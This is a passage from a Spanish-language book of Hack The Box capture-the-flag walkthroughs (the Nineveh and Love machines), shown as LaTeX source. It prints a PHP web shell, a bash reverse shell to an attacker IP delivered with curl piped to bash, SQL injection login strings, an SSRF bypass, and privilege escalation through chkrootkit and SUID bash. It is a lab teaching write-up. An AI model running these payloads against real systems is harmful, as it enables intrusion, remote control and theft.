   
\includegraphics[width=0.9\linewidth]{images/phpliteadmin-create-table} \caption{create table test}\label{fig:unnamed-chunk-30}
   \end{figure}
\item
  Entramos un commando PHP en la tabla

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/phpliteadmin-insert-command} \caption{insert php command}\label{fig:unnamed-chunk-31}
   \end{figure}

  El commando es \texttt{\textless{}?php\ system(\$\_REQUEST{[}"cmd"{]});\ ?\textgreater{}}
\item
  y con el uso de la LFI miramos lo que passa

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/phpliteadmin-rce} \caption{phpliteadmin RCE}\label{fig:unnamed-chunk-32}
   \end{figure}
\end{enumerate}

Ahora que tenemos possibilidades de ejecutar commandos de manera remota, vamos a tratar de ganar accesso al systema.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Creamos un archivo \emph{index.html} que contiene

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{#!/bin/bash}

\NormalTok{bash -i >}\ErrorTok{&}\NormalTok{ /dev/tcp/10.10.14.8/443 0>}\ErrorTok{&}\NormalTok{1}
\end{Highlighting}
\end{Shaded}
\item
  Compartimos un servidor web con \emph{python}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos la reverse shell por la web

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{10.10.10.43/department}\NormalTok{/}\ExtensionTok{manage.php?notes}\NormalTok{=files/ninevehNotes/../var/tmp/hack.php}\KeywordTok{&}\VariableTok{cmd=}\NormalTok{curl }\ExtensionTok{-s}\NormalTok{ 10.10.14.8}\KeywordTok{|}\FunctionTok{bash}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

ya hemos ganado accesso al systema.

\hypertarget{tratamiento-de-la-tty-10}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-10}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{analyzamos-el-systema}{%
\subsection*{Analyzamos el systema}\label{analyzamos-el-systema}}
\addcontentsline{toc}{subsection}{Analyzamos el systema}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{pwd}
\FunctionTok{ls}\NormalTok{ -l}
\BuiltInTok{cd}\NormalTok{ ..}
\FunctionTok{ls}
\BuiltInTok{cd}\NormalTok{ ..}
\FunctionTok{ls}
\end{Highlighting}
\end{Shaded}

Aqui vemos que hay un directorio llamado \texttt{ssl} que contiene otro directorio \texttt{secure\_notes} y como todo esto esta en \texttt{/var/www/html}
miramos en firefox lo que es. \texttt{https://10.10.10.43/secure\_notes} y vemos una imagen. Como el directorio se llama secure\_notes, pensamos
directamente en steganografia y nos descargamos la image

\hypertarget{analizando-los-bits-menos-significativos-de-la-imagen}{%
\subsection*{Analizando los bits menos significativos de la imagen}\label{analizando-los-bits-menos-significativos-de-la-imagen}}
\addcontentsline{toc}{subsection}{Analizando los bits menos significativos de la imagen}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{steghide}\NormalTok{ info nineveh.png}
\FunctionTok{file}\NormalTok{ nineveh.png}
\ExtensionTok{exiftool}\NormalTok{ nineveh.png}
\FunctionTok{strings}\NormalTok{ nineveh.png}
\end{Highlighting}
\end{Shaded}

El commando strings nos muestra una key id\_rsa privada y una publica del usuario amrois. Como no tenemos accesso al ssh desde fuera copiamos esta clave
en la maquina victima y le hacemos el tratamiento de siempre

\hypertarget{conneccion-por-ssh}{%
\subsection*{Conneccion por SSH}\label{conneccion-por-ssh}}
\addcontentsline{toc}{subsection}{Conneccion por SSH}

En la maquina victima:

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /tmp}
\FunctionTok{nano}\NormalTok{ id_rsa}
\FunctionTok{chmod}\NormalTok{ 600 id_rsa}
\FunctionTok{ssh}\NormalTok{ -i id_rsa amrois@localhost}
\end{Highlighting}
\end{Shaded}

Ya estamos connectados como amrois y podemos leer la flag.

\hypertarget{otra-manera-de-connectarnos-a-la-maquina}{%
\subsection*{Otra manera de connectarnos a la maquina}\label{otra-manera-de-connectarnos-a-la-maquina}}
\addcontentsline{toc}{subsection}{Otra manera de connectarnos a la maquina}

Si durante el analysis del systema ubieramos ido hasta mirar los processos que estan habiertos en background, ubieramos encontrado que la utilidad
\texttt{knockd} estava lanzada.

\textbf{Knockd} es una utilidad para escuchar o lanzar Port Knocking.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ps}\NormalTok{ -faux}
\FunctionTok{cat}\NormalTok{ /etc/knockd.conf}
\end{Highlighting}
\end{Shaded}

Aqui podemos ver que si Knockamos los puertos 571,290,911 se abriria el puerto 22 al exterior y si Knockeamos los puertos 911,290,571 se ceraria.

lo comprobamos desde la maquina de attackante:

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p22 10.10.10.43 --open -T5 -v -n}
\end{Highlighting}
\end{Shaded}

Aqui vemos quel puerto 22 esta cerrado

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{knock}\NormalTok{ 10.10.10.43 571:tcp 290:tcp 911:tcp}
\FunctionTok{nmap}\NormalTok{ -p22 10.10.10.43 --open -T5 -v -n}
\end{Highlighting}
\end{Shaded}

Aqui vemos que el puerto 22 se a abierto, y desde aqui nos podemos connectar por ssh como el usuario amrois.

\hypertarget{privilege-escalation-1}{%
\section*{Privilege Escalation}\label{privilege-escalation-1}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-10}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-10}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ls}\NormalTok{ -la}
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\BuiltInTok{cd}\NormalTok{ /root}
\end{Highlighting}
\end{Shaded}

Aqui no vemos nada interresante y no podemos entrar en el directorio root.

\hypertarget{analyzo-de-processos-con-pspy}{%
\subsubsection*{Analyzo de processos con PSPY}\label{analyzo-de-processos-con-pspy}}
\addcontentsline{toc}{subsubsection}{Analyzo de processos con PSPY}

installamos la herramienta en la maquina de attackante y lo compartimos con un web server.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{git}\NormalTok{ clone https://github.com/DominicBreuker/pspy}
\BuiltInTok{cd}\NormalTok{ pspy}
\ExtensionTok{go}\NormalTok{ build -ldflags }\StringTok{"-s -w"}\NormalTok{ main.go}
\ExtensionTok{upx}\NormalTok{ main}
\FunctionTok{mv}\NormalTok{ main pspy}
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}

Desde la maquina victima, downloadeamos el fichero y lo lanzamos

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{wget}\NormalTok{ http://10.10.14.8/pspy}
\FunctionTok{chmod}\NormalTok{ +x pspy}
\ExtensionTok{./pspy}
\end{Highlighting}
\end{Shaded}

Esperamos un poco y vemos que hay un script \texttt{/usr/bin/chkrootkit} que se ejecuta a interval regular de tiempo.

\hypertarget{priviledge-escalation-con-chkrootkit}{%
\subsubsection*{Priviledge escalation con chkrootkit}\label{priviledge-escalation-con-chkrootkit}}
\addcontentsline{toc}{subsubsection}{Priviledge escalation con chkrootkit}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ chkrootkit}
\end{Highlighting}
\end{Shaded}

Ya vemos que hay un exploit para Local Priviledge Escalation. Lo analyzamos.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ -x 33899}
\end{Highlighting}
\end{Shaded}

Creamos un fichero llamado update en tmp

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /tmp}
\BuiltInTok{echo} \StringTok{'#!/bin/bash\textbackslash{}n\textbackslash{}nchmod 4755 /bin/bash'} \OperatorTok{>}\NormalTok{ update}
\FunctionTok{chmod}\NormalTok{ +x update}
\ExtensionTok{watch}\NormalTok{ -n 1 ls -l /bin/bash}
\end{Highlighting}
\end{Shaded}

Ya podemos utilizar bash para convertirnos en root

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{bash}\NormalTok{ -p}
\FunctionTok{whoami}
\CommentTok{#Output}

\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}

Ya hemos rooteado la maquina y podemos ver la flag.

\hypertarget{love}{%
\chapter*{Love}\label{love}}
\addcontentsline{toc}{chapter}{Love}

\hypertarget{introduccion-15}{%
\section*{Introduccion}\label{introduccion-15}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia 07/08/2021 se llama Love
.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=bSTe009r_4M}{\includegraphics{https://img.youtube.com/vi/bSTe009r_4M/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-15}{%
\section*{Enumeracion}\label{enumeracion-15}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-15}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-15}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-15}{%
\subsubsection*{Ping}\label{ping-15}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.239}
\end{Highlighting}
\end{Shaded}

ttl: 127 -\textgreater{} maquina Windows

\hypertarget{nmap-15}{%
\subsubsection*{Nmap}\label{nmap-15}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.239}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.239 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p80,135,139,443,445,3306,5000,5040,5985,5986,7680,47001,49664,49665,4966,49667,49668,49669,49670 10.10.10.239 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
80 & http & Web, fuzzing &\tabularnewline
135 & rpc & &\tabularnewline
139 & NetBios & &\tabularnewline
443 & ssl (https) & &\tabularnewline
445 & SMB & Null session &\tabularnewline
3306 & mssql? & &\tabularnewline
5000 & http & &\tabularnewline
5040 & http & &\tabularnewline
5985 & WinRM & &\tabularnewline
5986 & WinRM ssl & &\tabularnewline
7680 & tcp panda-pub? & &\tabularnewline
47001 & http & &\tabularnewline
49664 & msrpc & puertos por defectos de windows &\tabularnewline
49665 & msrpc & puertos por defectos de windows &\tabularnewline
49666 & msrpc & puertos por defectos de windows &\tabularnewline
49667 & msrpc & puertos por defectos de windows &\tabularnewline
49668 & msrpc & puertos por defectos de windows &\tabularnewline
49669 & msrpc & puertos por defectos de windows &\tabularnewline
49670 & msrpc & puertos por defectos de windows &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-el-smb}{%
\subsection*{Analyzando el SMB}\label{analyzando-el-smb}}
\addcontentsline{toc}{subsection}{Analyzando el SMB}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{crackmapexec}\NormalTok{ smb 10.10.10.239}
\ExtensionTok{smbclient}\NormalTok{ -L 10.10.10.239 -N}
\end{Highlighting}
\end{Shaded}

Vemos que estamos en frente de una maquina Windows10 pro que se llama \textbf{Love} y poco mas

\hypertarget{analyzando-la-web-2}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-2}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-10}{%
\subsubsection*{Whatweb}\label{whatweb-10}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.239}
\ExtensionTok{whatweb}\NormalTok{ https://10.10.10.239}
\end{Highlighting}
\end{Shaded}

Nada muy interressante aqui

\hypertarget{checkear-el-contenido-de-el-certificado-ssl-con-openssl-1}{%
\subsubsection*{Checkear el contenido de el certificado SSL con openssl}\label{checkear-el-contenido-de-el-certificado-ssl-con-openssl-1}}
\addcontentsline{toc}{subsubsection}{Checkear el contenido de el certificado SSL con openssl}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{openssl}\NormalTok{ s_client -connect 10.10.10.239:443}
\end{Highlighting}
\end{Shaded}

vemos una direccion de correo \texttt{roy@love.htb} lo que quiere decir que tenemos un usuario y un dominio.
Tambien vemos un dominio \texttt{staging.love.htb}, quiere decir que es possible que se applique virtual hosting.
Lo añadimos al \texttt{/etc/hosts} de la maquina de attackante.

\begin{figure}

\includegraphics[width=0.9\linewidth]{images/love-etc-hosts} \caption{love virtual hosting}\label{fig:unnamed-chunk-33}
\end{figure}

\hypertarget{checkear-la-web-los-puertos-web}{%
\subsubsection*{Checkear la web los puertos web}\label{checkear-la-web-los-puertos-web}}
\addcontentsline{toc}{subsubsection}{Checkear la web los puertos web}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat}\NormalTok{ targeted }\KeywordTok{|} \FunctionTok{grep} \StringTok{"http"}
\FunctionTok{cat}\NormalTok{ targeted }\KeywordTok{|} \FunctionTok{grep} \StringTok{"http"} \KeywordTok{|} \FunctionTok{grep}\NormalTok{ -oP }\StringTok{'\textbackslash{}d\{1-5\}/tcp'}
\end{Highlighting}
\end{Shaded}

Aqui descartamos el puerto \textbf{47001} y los puertos \textbf{5985-5986} que ya sabemos que son los \textbf{WinRM}.

Con firefox navigamos en la web para ver lo que porque hay mucho por mirrar.

\begin{itemize}
\tightlist
\item
  el puerto 80 nos muestra una pagina de login.
\item
  el puerto 443 nos muestra un \textbf{Forbidden}.
\item
  el puerto 5000 nos muestra un \textbf{Forbidden}.
\item
  el dominio \textbf{staging.love.htb} nos muestra otra web
\end{itemize}

\hypertarget{checkeando-el-puerto-80}{%
\subsubsection*{Checkeando el puerto 80}\label{checkeando-el-puerto-80}}
\addcontentsline{toc}{subsubsection}{Checkeando el puerto 80}

Aqui como estamos en un panel de inicio de session, intentamos cosas

\begin{itemize}
\tightlist
\item
  admin / admin
\item
  1 / hola
\item
  0 / hola
\item
  -1 / hola
\item
  ;" / hola
\item
  1' or 1=1-- - / \#
\item
  ' or sleep(5)-- - / \#
\item
  1 and sleep(5)-- - / \#
\item
  1000 / hola
\end{itemize}

Aqui no parece que este vulnerable a injeccion SQL. Vamos a fuzzear la web

\hypertarget{fuzzing-con-wfuzz-6}{%
\subsubsection*{Fuzzing con WFuzz}\label{fuzzing-con-wfuzz-6}}
\addcontentsline{toc}{subsubsection}{Fuzzing con WFuzz}

Fuzzeamos el puerto 80

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{wfuzz}\NormalTok{ -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.239/FUZZ}
\end{Highlighting}
\end{Shaded}

Encontramos una ruta \texttt{/admin}. En la pagina admin vemos otro panel de inicio de session que no es la misma que la del \texttt{index.php}

\hypertarget{checkeando-la-pagina-admin}{%
\subsubsection*{Checkeando la pagina admin}\label{checkeando-la-pagina-admin}}
\addcontentsline{toc}{subsubsection}{Checkeando la pagina admin}

Aqui como estamos en un panel de inicio de session, intentamos cosas

\begin{itemize}
\tightlist
\item
  test / test
\item
  admin / admin
\end{itemize}

Ya vemos por el mensaje de error quel usuario admin existe.

\hypertarget{vulnerability-assessment-2}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-2}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{analizamos-la-web-staging.love.htb}{%
\subsection*{Analizamos la web staging.love.htb}\label{analizamos-la-web-staging.love.htb}}
\addcontentsline{toc}{subsection}{Analizamos la web staging.love.htb}

Aqui llegamos en una pagina \textbf{Free File Scanner}. si pinchamos el menu Demo vemos un input que nos pregunta por un file url.

Vamos a ver lo que passa si le damos una url de nuestro equipo de attaquante

\hypertarget{injeccion-html-y-ssrf}{%
\subsection*{Injeccion HTML y SSRF}\label{injeccion-html-y-ssrf}}
\addcontentsline{toc}{subsection}{Injeccion HTML y SSRF}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{vi}\NormalTok{ index.html}

\OperatorTok{<}\ExtensionTok{h1}\OperatorTok{>}\NormalTok{Hola}\OperatorTok{<}\NormalTok{/h1}\OperatorTok{>}
\OperatorTok{<}\ExtensionTok{marquee}\OperatorTok{>}\NormalTok{Se tenso}\OperatorTok{<}\NormalTok{/marquee}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

Creamos un servicio http con python

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}

En la web ponemos la url de nuestro equipo \texttt{http://10.10.14.8/} y vemos que la web es vulnerable a una \textbf{Injeccion HTML}.
Intentamos con una pagina php

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{vi}\NormalTok{ index.php}

\OperatorTok{<}\ExtensionTok{?php}
    \ExtensionTok{system}\NormalTok{(}\StringTok{"whoami"}\NormalTok{);}
\ExtensionTok{?}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

Si ahora en la web le ponemos \texttt{http://10.10.14.8/index.php} no passa nada quiere decir que esta en un contexto sanitizado.
Bueno aqui pensamos en un \textbf{SSRF} y intentamos cosas como \texttt{http://localhost/}. Esto nos muestra el panel de session que ya emos analizado,
y probamos a ver si los puertos que tenian el mensaje \textbf{Forbidden} se pueden ahora burlar.

Intentamos el puerto 5000, \texttt{http://localhost:5000/} y effectivamente se puede ver la pagina. A demas vemos aqui las credenciales del usuario \textbf{admin}.

Nos connectamos ahora con el usuario admin en el panel de administracion y pa dentro.

\hypertarget{voting-system-vunlerability}{%
\subsection*{Voting System vunlerability}\label{voting-system-vunlerability}}
\addcontentsline{toc}{subsection}{Voting System vunlerability}

Aqui como una vez mas vemos el voting system, mirramos si un exploit existe para este gestor de contenido

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ voting system}
\end{Highlighting}
\end{Shaded}

Encontramos un que permitte hacer Ejecucion Remota de commandos una vez authenticados. Como no tenemos claro que version del voting system es,
intentamos utilizar el script

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ exploits}
\ExtensionTok{searchsploit}\NormalTok{ -m php/webapps/49445.py}
\FunctionTok{mv}\NormalTok{ 49445.py voting-system.py}
\ExtensionTok{vi}\NormalTok{ voting-system.py}
\end{Highlighting}
\end{Shaded}

Aqui vemos que el exploit nos da directamente une reverse shell.

\hypertarget{vuln-exploit-gaining-access-2}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-2}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{conneccion-desde-la-vulnerabilidad-de-voting-system}{%
\subsection*{Conneccion desde la vulnerabilidad de Voting System}\label{conneccion-desde-la-vulnerabilidad-de-voting-system}}
\addcontentsline{toc}{subsection}{Conneccion desde la vulnerabilidad de Voting System}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Controlamos que las urls que estan en el script existen en la web.

  Aqui vemos que las urls no son exactamente las mismas y que hay que modificarlas un poquito.
\item
  Modificamos el script para que attacke el servicio de la maquina victima

  \begin{figure}
   
\includegraphics[width=0.9\linewidth]{images/love-votingsystem-rshell} \caption{voting system reverse shell}\label{fig:unnamed-chunk-34}
   \end{figure}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{rlwrap}\NormalTok{ nc -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos el script.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{python3}\NormalTok{ voting-system.py}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

Ya estamos en la maquina.

\hypertarget{privilege-escalation-2}{%
\section*{Privilege Escalation}\label{privilege-escalation-2}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-11}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-11}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\FunctionTok{whoami}\NormalTok{ /priv}
\FunctionTok{whoami}\NormalTok{ /all}
\end{Highlighting}
\end{Shaded}

Aqui no vemos nada de interressante.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ c:\textbackslash{}}
\NormalTok{cd PROGRA~1}
\FunctionTok{dir}
\BuiltInTok{cd}\NormalTok{ ..}
\BuiltInTok{cd}\NormalTok{ PROGRA~2}
\FunctionTok{dir}
\end{Highlighting}
\end{Shaded}

Investigamos un poco pero no vemos nada muy interressante. Decidimos lanzarle un WinPEAS

\hypertarget{analysis-de-vulnerabilidad-privesc-con-winpeas}{%
\subsubsection*{Analysis de vulnerabilidad Privesc con WINPEAS}\label{analysis-de-vulnerabilidad-privesc-con-winpeas}}
\addcontentsline{toc}{subsubsection}{Analysis de vulnerabilidad Privesc con WINPEAS}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ c:\textbackslash{}Windows\textbackslash{}Temp}
\FunctionTok{mkdir}\NormalTok{ EEEE}
\BuiltInTok{cd}\NormalTok{ EEEE}
\end{Highlighting}
\end{Shaded}

Descargamos el \texttt{winpeasx64.exe} desde \url{https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASexe/binaries/Obfuscated\%20Releases/winPEASx64.exe}.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ content}
\FunctionTok{cp}\NormalTok{ /home/s4vitar/Descargas/firefox/winPEASx64.exe .}
\ExtensionTok{python3}\NormalTok{ -m http.server 80}
\end{Highlighting}
\end{Shaded}

Lo descargamos desde la maquina victima y lo lanzamos.

\begin{Shaded}
